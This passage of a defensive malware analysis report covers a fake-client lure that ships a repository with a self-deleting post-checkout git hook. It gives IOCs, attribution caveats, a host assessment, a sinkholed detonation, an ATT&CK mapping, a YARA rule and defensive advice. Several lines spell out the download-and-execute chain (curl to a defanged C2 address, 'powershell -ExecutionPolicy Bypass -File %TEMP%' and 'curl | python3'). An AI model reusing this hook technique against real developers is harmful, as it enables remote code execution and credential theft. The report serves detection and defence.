| `post-checkout` | 1,928 B | `cf74c18d923250226a47dcef01a35e897f5a1e67724e2535fd6bc0f98ff89dbd` | 1/58 · Kaspersky `HEUR:Trojan-Downloader.Shell.Agent.bc` |
| `prismqiwave.zip` | 10.68 MB | `34f0e33c4d0775d560c27852bf63ed9b89077a57a797ca56c812a7535eb34875` | 1/64 · Kaspersky `HEUR:Trojan.Multi.GitHook.gen` |
| `nexanacraft.zip` | 8.44 MB | `398442b9a622cd4aad2e2486c9d0decfeed667055c2588451d98ee60486a396e` | 1/64 · same |
| `mesarelay.zip` | 4.68 MB | `c7bb51079b87e602673674e787ed22684ed7bd0fd21cb7d70e97f9c2ee60a1e4` | 1/64 · same |
| `.bash_profile` | 52 B | `3f65f68db1d3d08ea7bb2d3b5107c741d0ae83cc65966fa796b18b7040f0eb27` | 1/61 · `downloader.shell` |
| `microsoft_service.vbs` | 160 B | `8e8a0586cfdcfec6a4bc34e819b035de6a596a116ef24bbe26a9bc4bb403622c` | 2/60 · VBScript that runs a hidden PowerShell download-and-execute (2026-06-04) |

**The hook is byte-identical.** The verbatim transcription of the OliveBloom hook, 1,928 bytes,
hashes to exactly `cf74c18d…89dbd`, the `post-checkout` someone else uploaded on 2026-11-06.
This gives the byte-exact hash that the deleted original could not, and it shows how the kit is built:

- **The repository and archive are generated per victim**: different names, different sizes, so
  the archive hash is useless for detection.
- **The hook is a fixed template** (its zip timestamp, 19:54, predates every repository build), so
  **the hook hash is a reliable cross-victim indicator**.
- **Archive names come from a generator:** `olive`+`bloom`, `prism`+`qi`+`wave`, `nexana`+`craft`,
  `mesa`+`relay`. All lowercase, two invented fragments, `.zip`.
- **Detection is almost nil:** one engine out of 58–64 on every file.

Two files fill in what the hook leaves out, but **their content was not inspected**, so these
readings are inferences:

- A **52-byte `.bash_profile` that references the C2** is one line run at every login shell. This
  is very likely the **persistence** the macOS/Linux stage-2 installs.
- `microsoft_service.vbs` matches the **June** certificate window. It may be an earlier Windows
  delivery method by the same operator, or a different tenant of the same cloud address. Cloud IPs
  are reassigned, so the link is only plausible.

### 3.4 Attribution: what the evidence does and does not say

A common first reading is "the server is in India, so the attacker is Indian". The evidence does
not support that:

| Evidence | What it actually shows |
|---|---|
| IP geolocates to India | The operator picked an **Oracle Cloud region** in India. Anyone, anywhere, can rent one in minutes, often on a free tier |
| Block registered to a UAE company | The registrar **leases** the range to Oracle. It has no relation to the operator |
| Build host clock at **UTC+5:00** (§2.4) | India is **UTC+5:30**, so this points slightly *against* an Indian-configured machine. UTC+5 covers Pakistan, Uzbekistan, the Maldives and parts of Kazakhstan and Russia, and a clock can be set to anything |
| Account presents as Lahore, Pakistan | The profile appears **hijacked**, so its location describes the original owner, not the operator |
| Tradecraft | Fake client → shipped `.git` → `post-checkout` downloader matches public reporting on fake-recruiter git-hook campaigns against developers, which some researchers attribute to the DPRK "Contagious Interview" cluster. However, the infrastructure seen here (bare-IP Oracle Cloud + Let's Encrypt IP certificates) differs from the Vercel-hosted variants in those reports, and no shared indicators were found |

> **Conclusion:** the operator's nationality **cannot be determined** from this evidence, and no
> attribution is claimed. What *can* be said is that the operation is automated (per-victim builds,
> scripted certificate renewal), multi-victim, and active since at least October 2026, with a
> possible earlier window in June.

---

## Phase 4 — Host Compromise Assessment

The archive touched the workstation twice: on receipt, and again when it was re-downloaded to move it
into the lab. Two read-only hunts were run to prove the dropper never executed. Scripts:
[`tools/host-hunt/hunt.ps1`](tools/host-hunt/hunt.ps1) (user) and
[`tools/host-hunt/hunt_admin.ps1`](tools/host-hunt/hunt_admin.ps1) (elevated). The IOC strings inside
the scripts are split (`'wt'+'ech'`) so the hunt's own PowerShell script-block logs never match themselves.

### 4.1 The one execution path

For the hook to run, all of this must happen: `git.exe` → `sh.exe` → `curl.exe` (download) →
`powershell.exe -File %TEMP%\wtech_boot_*.ps1`. The assessment therefore looks for evidence of
**each link**, plus anything stage-2 would leave behind.

### 4.2 Results

| Check | Result |
|---|---|
| **Prefetch:** `curl`, `sh`, `powershell`, `python`, `wscript`, `mshta`, `certutil` since exposure | **No `CURL.EXE` and no `SH.EXE` ever ran.** All other interpreter runs match the analysis tooling |
| Prefetch: programs first seen since exposure | Known software only |
| `%TEMP%` / `C:\Windows\Temp` | No `wtech_boot_*.ps1`, no new scripts or binaries |
| PowerShell 4104 / 4103 / 400 | No IOC hits beyond the hunt scripts; every `-EncodedCommand` decoded to known tooling |
| Defender | Real-time, behaviour and IOAV protection on; no detections; custom scans of Downloads, the case folder, `%TEMP%` and `%APPDATA%` clean |
| Network | No connection or DNS-cache entry for the C2 address |
| Persistence | Run/RunOnce, startup folders, scheduled tasks (+ event 106), services (+ event 7045), WMI subscriptions, IFEO, Winlogon, AppInit, LSA, HKCU COM, PowerShell profiles: clean |
| Tampering | `hosts` file untouched, no proxy or PAC, no new browser extensions, no Defender exclusion changes (event 5007 reviewed) |
| Unsigned processes in user-writable paths | One, traced through its parent chain to a known development tool |
| Disk sweep (all drives) | No archive copy, no extracted repository, **no live git hook in any repository on disk** |
| Recycle Bins, git global config (`core.hooksPath`, `init.templateDir`) | Clean |

> **Verdict: not compromised.** Every link of the only execution path is absent, and nothing stage-2
> would plausibly leave behind is present.

---

## Phase 5 — Dynamic Analysis (Controlled Detonation)

The attacker's second stage is hosted remotely and was **not publicly available** on any malware
repository (VirusTotal relations, URLhaus and ThreatFox were all negative as of 2026-11-08), the C2's
routing had already changed, and the payload is swappable per victim and per OS. Rather than contact
live attacker infrastructure to capture a single, transient copy, the delivery and execution chain was
reproduced in the isolated lab using a **benign marker payload** served from the analyst's own sinkhole.
This exercises the real, unmodified hook end to end without ever contacting the attacker; the stage-2's
capability is characterised separately (§5.5).

### 5.1 Method

- The C2 IP was routed to the REMnux sinkhole, which served a one-line benign PowerShell marker over
  HTTPS using a certificate whose Subject Alternative Name is the C2 IP, trusted on the victim.
- **Faithful-reproduction note.** Git for Windows' `curl` uses the Windows **schannel** TLS backend,
  which enforces an online certificate-revocation check. On an isolated network that check cannot
  complete (`CRYPT_E_NO_REVOCATION_CHECK 0x80092012`); it was disabled for the lab only
  (`ssl-no-revoke`). On a real, internet-connected victim the check succeeds against Let's Encrypt and
  the chain proceeds unaided — the reliance on Windows' own TLS stack and a publicly trusted IP
  certificate is itself notable tradecraft.
- Instrumentation: Process Monitor, Process Hacker, Regshot (before/after), and a full packet capture
  on the sinkhole. A clean snapshot was taken before detonation and restored afterward.

### 5.2 Result — the chain executed exactly as modelled

`git checkout plan` presented as an ordinary, successful branch switch while silently executing the
full chain:


*`git checkout plan` → "Switched to branch 'plan'"; the marker file written by the stage-2 step; the
dropped `wtech_boot_331.ps1` (63 B) left in `%TEMP%`; and `post-checkout` gone — self-deleted.*

| Modelled behaviour (Phases 1–2) | Observed at detonation |
|---|---|
| Hook fires on `git checkout` | `git checkout plan` triggered it; checkout reported success |
| Process chain `git → sh → curl → powershell` | Observed in Process Monitor / Process Hacker |
| `curl` GET to the C2 over HTTPS | Sinkhole logged `GET /wtech/auralyx → 200`; captured in the pcap |
| Download to `%TEMP%\wtech_boot_<pid>.ps1` | `wtech_boot_331.ps1` (63 B) written to `%TEMP%` |
| `powershell -File` executes the payload | Marker file written by the payload step |
| Hook self-deletes; checkout exits 0 | `post-checkout` no longer present; no error surfaced |
| Dropped `.ps1` survives self-deletion | `wtech_boot_331.ps1` remained — the key post-incident host artefact |

### 5.3 Host changes — the dropper installs no persistence of its own

A before/after Regshot comparison (158 changes) contained **no persistence**: no `Run`/`RunOnce`, no
new service, no scheduled task, and no Winlogon/IFEO/AppInit or startup entry. The only
detonation-attributable registry changes were execution artefacts — BAM and UserAssist records for
`powershell.exe` — which independently corroborate the execution step. Persistence, where it exists, is
the **stage-2's** responsibility; this is consistent with the 52-byte `.bash_profile` C2 artefact
observed for the macOS/Linux path (§3.3).

### 5.4 Detection validation

The detection logic proposed from static analysis (§2.7 of the working notes) was confirmed against
live telemetry: the `git → sh → curl → powershell -File %TEMP%\*.ps1` process lineage; creation of
`%TEMP%\wtech_boot_*.ps1` immediately followed by a PowerShell `-File` execution from `%TEMP%`; and
HTTPS to a bare IP from a `curl` process whose parent is Git's `sh`.

### 5.5 Stage-2 capability (characterised, not retrieved)

The attacker's own second stage was intentionally not pulled from live infrastructure. Its capability
is inferred from the hook's design and from public reporting on this lure family: a staged downloader
leading to an infostealer/RAT that targets developer assets — SSH keys, `.env` files, cloud
credentials, browser sessions and cryptocurrency wallets — with the macOS/Linux variant persisting via
shell-profile modification. This is an inference and is labelled as such; a full dissection of the
attacker's payload is out of scope for this report.

---

## MITRE ATT&CK Mapping

| Tactic | Technique | Evidence |
|---|---|---|
| Resource Development | T1586 Compromise Accounts *(suspected)* / T1585 Establish Accounts | Aged developer account, 0 reviews, cloned posts |
| Resource Development | T1583.003 Acquire Infrastructure: Virtual Private Server | Oracle Cloud instance as C2 |
| Resource Development | T1588.004 Obtain Capabilities: Digital Certificates | Scripted Let's Encrypt IP certificates |
| Initial Access | T1566.003 Phishing: Spearphishing via Service | Freelancing-platform DM + attachment |
| Execution | T1204.002 User Execution: Malicious File | Victim runs `git checkout`; **observed** to fire the hook (§5.2) |
| Execution | T1059.004 Unix Shell | The hook itself; **observed** running via Git's `sh` |
| Execution | T1059.001 PowerShell | Windows stage-2 via `-ExecutionPolicy Bypass -File`; **observed** at detonation |
| Execution | T1059.006 Python | macOS/Linux stage-2 via `curl \| python3` (hook branch) |
| Command and Control | T1105 Ingress Tool Transfer | `curl` download of stage-2; **observed** (sinkhole 200 + pcap) |
| Command and Control | T1071.001 Web Protocols | HTTPS to a bare IP |
| Defense Evasion | T1070.004 Indicator Removal: File Deletion | Hook deletes itself; **observed** — `post-checkout` gone after checkout |
| Defense Evasion | T1036 Masquerading *(loose fit)* | Payload hidden as a normal git hook in a "work" repo |
| Persistence | T1546.004 Unix Shell Configuration Modification *(suspected)* | 52-byte `.bash_profile` referencing the C2 (§3.3) |

Stage-2 techniques are characterised from the hook and public reporting (§5.5); they are not confirmed
by direct analysis of the attacker's own payload.

---

## Indicators of Compromise

Machine-readable: [`iocs/iocs.csv`](iocs/iocs.csv).

### Host

| Type | Indicator |
|---|---|
| Dropped file | `%TEMP%\wtech_boot_<pid>.ps1` (**survives** hook self-deletion) |
| Dropper | `<repo>/.git/hooks/post-checkout`, 1,928 bytes, deleted after first run |
| Dropper SHA-256 | `cf74c18d923250226a47dcef01a35e897f5a1e67724e2535fd6bc0f98ff89dbd` (**same across victims**) |
| Sibling lures (SHA-256) | `prismqiwave.zip` `34f0e33c4d0775d560c27852bf63ed9b89077a57a797ca56c812a7535eb34875` · `nexanacraft.zip` `398442b9a622cd4aad2e2486c9d0decfeed667055c2588451d98ee60486a396e` · `mesarelay.zip` `c7bb51079b87e602673674e787ed22684ed7bd0fd21cb7d70e97f9c2ee60a1e4` |
| Persistence *(suspected)* | `.bash_profile` (52 B) `3f65f68db1d3d08ea7bb2d3b5107c741d0ae83cc65966fa796b18b7040f0eb27` |
| Related, June 2026 | `microsoft_service.vbs` (160 B) `8e8a0586cfdcfec6a4bc34e819b035de6a596a116ef24bbe26a9bc4bb403622c` |
| Process chain | `git.exe` → `sh.exe` → `curl.exe` → `powershell.exe -NoProfile -ExecutionPolicy Bypass -File %TEMP%\*.ps1` |
| Execution artefacts | Post-run BAM + UserAssist records for `powershell.exe` (observed at detonation, §5.3) |
| Lure archive | `olivebloom.zip`, 1,330,753 bytes (unique per victim; detect on the hook hash instead) |
| Git author | `Challenge Bot <challenge@local>` |
| Git commits | `38f51abb120e398f1ae1552073d5d3d3a658dcef` (main), `ba8ea7f135c6ef4c8a659c3ab4cc43ad5e39b00b` (plan) |
| Decoy blobs | `c1046930dbefca08e48337dd7a2fb31f12a488a7` (.fig), `64cee223c6002763673e8ee87a540ce92637ef0c`, `58ec39df8f63afe1927b13851557f6d8dfa58fd2`, `0ee750714970a0ea764ba85e458c0473a6bfc39f` |
| Lure string | `Candidate need to checkout plan branch` |

### Network

| Type | Indicator |
|---|---|
| IPv4 | `66.116.241[.]148` |
| URL (Windows) | `hxxps://66.116.241[.]148/wtech/auralyx` |
| URL (macOS/Linux) | `hxxps://66.116.241[.]148/dtech/auralyx` |
| Hosting | AS31898 (Oracle Cloud) as of 2026-11-04; block `66.116.128.0/17` (P.D.R Solutions FZC) |
| TLS certificate | Let's Encrypt `YE2`, SAN = the IP, SHA-1 `4bc74b6d3b5b56e4501ec6d0ef1980d57c4fb153` (rotates every ~160 h) |
| JARM | `28d28d28d00028d00042d42d0000005a3e96c1dfa4bdb24b8b3c04cae18cc3` |
| Behaviour | HTTPS to a bare IP from `curl.exe` whose parent is Git's `sh.exe` |

### Lure

| Type | Indicator |
|---|---|
| Account | Freelancer `@timimalik` ("Taimoor"); likely hijacked; removed by the platform |
| Names | "Auralyx" (chat), "OliveBloom" (repo), "Argonz" (docs) |
| Archive naming | Two invented lowercase fragments + `.zip`: `olivebloom`, `prismqiwave`, `nexanacraft`, `mesarelay` |
| Pattern | "Freelance <stack> Developer for Ongoing Work", $250–750, cloned across stacks |

---

## YARA Detection Rules

Full rules: [`iocs/olivebloom.yar`](iocs/olivebloom.yar) · self-test: `python -I iocs/test_yara.py`

```yara
rule Zip_Ships_Live_Git_Hook
{
    meta:
        description = "Zip archive containing a .git/hooks entry that is not a stock *.sample file"

    strings:
        // entry name followed by a non-name byte, i.e. NOT "<hook>.sample"
        $hook = /\.git\/hooks\/(applypatch-msg|commit-msg|…|post-checkout|…|pre-push|update)[^a-z.\-_]/

    condition:
        uint32(0) == 0x04034B50 and $hook
}
```

`Zip_Ships_Live_Git_Hook` is the more useful of the two. It does not depend on
this kit's strings, so it catches **any** archive that smuggles an executable hook, which is the
delivery mechanism itself. `OliveBloom_PostCheckout_Dropper` matches this hook's own strings and its
generic self-deleting pattern. Both are verified against positive and negative cases, including a
benign hook and an archive containing only `.sample` files.

---

## Defensive Recommendations

| Control | Why it works against this sample |
|---|---|
| **Read `.git/hooks/` before any git command** in a repository someone sent you | The entire attack is one file in that folder. `unzip -l` shows it without extracting |
| **`git config --global core.hooksPath <empty dir>`** | Disables repository-local hooks everywhere; re-enable per repository when you really need them |
| **Ask for a link, not a zip** | A cloned repository cannot carry a hook. A refusal to share a link is itself a signal |
| **Alert on `git.exe` → `sh.exe` → `curl.exe` → `powershell.exe -File %TEMP%`** | High-fidelity process chain; legitimate hooks rarely download and execute |
| **Constrained Language Mode / AppLocker for `%TEMP%\*.ps1`** | Blocks the Windows execution step even if the hook fires |
| **Egress filtering on bare-IP HTTPS from developer tools** | Stage-2 is fetched from an IP, not a domain |
| **Separate client work from personal credentials** | Limits what any stage-2 could steal from a developer machine |
| **Treat over-market pay + urgency + "run this exact command" as a combined signal** | Each alone is weak; together they describe this lure exactly |

---

## Analytical Takeaways

**The delivery chain is where this threat is both most dangerous and most defensible.** The hook is
~50 lines of unobfuscated shell; its effectiveness comes entirely from the surrounding operation — a
per-victim generated repository, a conversation engineered to make one `git` command appear routine,
and a `post-checkout` trigger the victim invokes themselves. Controls on that chain (inspecting shipped
`.git/hooks`, neutralising repo-local hooks, alerting on the process lineage) yield more than
signature-based detection of the trivial downloader.

**Hash reputation is the wrong primary control for per-victim lures.** The archive is regenerated
seconds before delivery, so its hash is effectively unique and reputation lookups return nothing, and
the thin downloader scores against almost no engines. The durable indicator sits one layer down: the
**hook is a fixed template with a stable hash**, which pivoted a dead-end archive lookup into a confirmed
link to a separate victim and three sibling lures on the same infrastructure.

**A "not compromised" determination must rest on a ruled-out execution path, not on intent.** The host
assessment did not stop at "the archive was never extracted"; it enumerated every link the hook requires
(`git → sh → curl → powershell`) and demonstrated each was absent, with Prefetch confirming the
required binaries never executed. The controlled detonation then verified this is the complete and only
execution path.

**Living off trusted tooling shifts the detection burden to behaviour.** The operation relies on
binaries already present and trusted on any developer workstation — Git's signed `curl`, the platform
`powershell`/`python3` — and on Windows' own TLS stack with a publicly trusted certificate. Static
trust decisions do not catch it; process-lineage and egress behaviour do.

---

## References & Prior Work

Fake-recruiter and fake-client lures aimed at developers are well documented publicly, for example
Palo Alto Networks Unit 42's reporting on the "Contagious Interview" campaign. Abuse of git hooks for
code execution is a known technique. **No attribution is claimed here**; the overlap is the general
pattern, not shared indicators.

This repository documents a first-hand analysis of a lure delivered to the analyst: the
social-engineering conversation, the in-memory static triage, the reconstruction of the per-victim
build, the passive infrastructure intelligence, the host assessment that proves non-execution, and the
controlled reproduction of the execution chain. Where a conclusion is an inference (the UTC+5 build
host, the per-victim archive hash, the account likely being hijacked, the stage-2 capability) it is
labelled as such.

**Git hooks:** [git-scm.com/docs/githooks](https://git-scm.com/docs/githooks) · **Framework:** [MITRE ATT&CK](https://attack.mitre.org/)

---

## Repository Contents

```
.
├── README.md                       ← this analysis
├── images/                         ← 7 screenshots: 6 conversation (profile photo pixelated) + 1 detonation
├── evidence/
│   ├── post-checkout.defanged.txt  ← the dropper hook, defanged text
│   └── decoy/                      ← decoy PRD + pricing/billing docs from the plan branch
├── iocs/
│   ├── iocs.csv                    ← machine-readable indicators
│   ├── olivebloom.yar              ← YARA detection rules
│   └── test_yara.py                ← rule self-test (positive + negative cases)
├── tools/
│   ├── zip_git_objects.py          ← decode a zipped repo's git objects in memory
│   └── host-hunt/                  ← read-only host compromise assessment (PowerShell)
├── report/                         ← formatted report (in progress)
└── LICENSE
```

**No malware samples, archives or stage-2 payloads are included in this repository.**

---

<sub>Analysis by **Ali Mehdi Jafeeri** · November 2026<br>
Published for educational and defensive purposes. Indicators are provided for detection engineering only.</sub>
